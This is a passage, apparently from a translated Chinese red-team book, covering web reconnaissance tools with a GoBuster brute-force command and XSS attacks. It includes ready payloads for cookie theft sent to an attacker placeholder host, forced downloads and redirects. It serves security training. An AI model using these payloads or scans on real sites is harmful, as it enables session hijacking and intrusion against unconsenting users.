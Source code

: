 ![](img/chapter_3/3-5.png)

盲目攻击网站之前了解目标应用程序可以帮助你提供更好的思路。这也有助于入侵可能有 WAF 的目标站点，允许你使用更多的攻击手法。

### 网络探测
在之前的书中，我们详细介绍了如何使用 Burp Suite 以及如何对站点进行渗透测试。我们将跳过很多设置基础知识，并将更多精力放在攻击网站上。

在这一点上，我们将假设你已经设置好了 Burp Suite（免费或付费），并且你使用的是本书的 Kali 镜像。一旦我们了解了底层系统，我们就需要识别所有端点。我们仍然需要运行与之前相同的探测工具。

* [Burp Suite](https://portswigger.net/burp)
    * 爬虫：在免费和付费版本中，Burp Suite 都有一个很棒的爬虫工具。
    * 内容探测：如果你使用的是付费版本的 Burp Suite，那么最受欢迎的探测工具之一就是 Discover Content。这是一个智能高效的工具，可以查找目录和文件。你还可以为扫描指定多种不同的配置。
    * 主动扫描：运行所有参数的自动漏洞扫描并测试多个 Web 漏洞。
* [OWASP ZAP](http://bit.ly/2IVNaO2)
    * 类似于 Burp，但完全开源和免费。具有类似的探测和主动扫描功能。
* Dirbuster
    * 一个很久以前就被开发出的旧工具，用于发现 Web 应用程序的文件/文件夹，但现在仍然可以顺利的完成工作。
    * 目标网址：http://chat:3000 
    * 字典：
        *  /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
* [GoBuster](https://github.com/OJ/gobuster)
    * 非常轻量级、快速的目录和子域名爆破工具
    * gobuster -u http://chat:3000 -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -s 200,301,307 -t 20

你的字典列表非常重要。我最喜欢使用的一个汇总的字典列表是一个名为 raft 的旧字典，它是许多开源项目的集合。你可以在这里找到这些和其他有价值的字典列表：https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content （已包含在本书的 Kali 镜像中）。

现在既然我们已经完成了概述，让我们进行一些攻击吧。从红队的角度来看，我们正在寻找可以主动攻击的漏洞，并为我们提供最大的帮助。如果我们正在进行评估或渗透测试，我们可能会报告漏洞扫描程序中的 SSL 问题，默认 Apache 页面或其他漏洞扫描程序发现的不可利用的漏洞等。但是，在我们的红队工作中，我们可以完全忽略这些，并专注于能使我们获得高级访问权限，shell 或 转储 PII 的攻击。

### XSS 跨站脚本攻击
在这一点上，我们都曾经见过并利用过跨站点脚本攻击（XSS）。使用传统的 XSS 攻击测试网站上的每个变量的方式：<script>alert(1)</script>，对于漏洞赏金平台来说可能很有用，但我们可以做更多吗？我们可以使用哪些工具和方法来更好地利用这些攻击？

我们都知道 XSS 攻击是客户端攻击，允许攻击者创建特定的 Web 请求从而将恶意代码注入响应中。这通常可以通过客户机和服务器端的适当输入验证来修复，但这绝不是那么容易。为什么这么说？因为 XSS 漏洞由多种原因造成的。从编码不规范到不理解框架，有时候应用程序变得过于复杂，就很难理解一个输入点的安全性。

因为仅仅弹窗确实没有真正的危害，让我们从一些基本类型的 XSS 攻击开始：

* Cookie 窃取XSS：
```HTML
<script>document.write('<img src="http//<YourIP>/Stealer.php?cookie='%2B document.cookie %2B '"/>');</script>
```
* 强制下载文件：
```HTML
<script>var link = document.createElement('a'); link.href ='http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = '';document.body.appendChild(link); link.click();</script>
```
* 重定向用户：
```HTML
<script>window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ";</script>
```
* 其他脚本以启用键盘记录器，拍照等：
    *  http://www.xss-payloads.com/payloads-list.html?c#category=capture
